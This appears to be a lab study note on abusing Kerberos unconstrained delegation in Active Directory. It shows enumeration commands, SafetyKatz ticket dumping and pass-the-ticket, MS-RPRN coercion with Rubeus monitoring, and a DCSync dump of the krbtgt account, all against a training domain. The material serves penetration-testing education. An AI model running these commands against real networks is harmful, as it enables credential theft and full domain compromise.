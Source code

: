 # Uncostrained Delegation

## Unconstrained Delegation

Unconstrained delegation allows a service to impersonate a user to any other service in the domain.\
When this is enabled, the domain controller includes the user's TGT in the TGS. The TGT is then extracted by the service and stored in LSASS, allowing it to be reused for impersonation.\
This behavior makes unconstrained delegation highly abusable.

**Delegation Process Flow:**

1. A user authenticates to the Domain Controller and receives a TGT.
2. The user requests a TGS for a service (e.g., a web server).
3. The user sends both the TGT and the TGS to the service.
4. The service extracts the user's TGT and requests a new TGS to access another resource (e.g., a database server).
5. The service authenticates to the second server as the user.

***

### Enumeration

To identify domain machines or users with unconstrained delegation enabled:

*   **PowerView:**

    ```powershell
    Get-DomainComputer -Unconstrained
    ```
*   **ActiveDirectory Module:**

    ```powershell
    Get-ADComputer -Filter {TrustedForDelegation -eq $True}
    Get-ADUser -Filter {TrustedForDelegation -eq $True}
    ```

***

### Abusing Unconstrained Delegation

1. **Compromise a server with unconstrained delegation enabled.**
2. **Wait for or coerce a domain admin to authenticate to it.**
3.  **Dump cached TGTs:**

    ```powershell
    SafetyKatz.exe "sekurlsa::tickets /export"
    ```
4.  **Inject a Domain Admin’s TGT:**

    ```powershell
    SafetyKatz.exe "kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"
    ```

***

## Coercion Techniques

Certain Windows services allow **any authenticated user** to coerce one machine into authenticating to another. These include:

| Protocol | Service            | Default Enabled | Port    |
| -------- | ------------------ | --------------- | ------- |
| MS-RPRN  | Print Spooler      | Yes             | 445 SMB |
| MS-WSP   | Windows Search     | No              | 445 SMB |
| MS-DFSNM | DFS Namespace Mgmt | No              | 445 SMB |

Use these coercion techniques to force authentication from a DC to a controlled host.

***

### Capturing and Reusing the TGT

1.  **On the attacker's controlled server (e.g., `dcorp-appsrv`), monitor for TGTs:**

    ```powershell
    Rubeus.exe monitor /interval:5 /nowrap
    ```
2.  **On the student's VM, coerce authentication using MS-RPRN:**

    ```powershell
    MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
    ```
3.  **Once the TGT is captured (Base64 encoded), inject it into memory:**

    ```powershell
    Rubeus.exe ptt /ticket:<Base64_TGT>
    ```
4.  **Dump secrets using DCSync:**

    ```powershell
    SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt"
    ```

### Lab

* Learning Object 15

### Labs

* [Learning Object 16 lab](../../lab/16-lo1-6.md)
* [Learning Object 17 lab](../../lab/17-lo1-7.md)
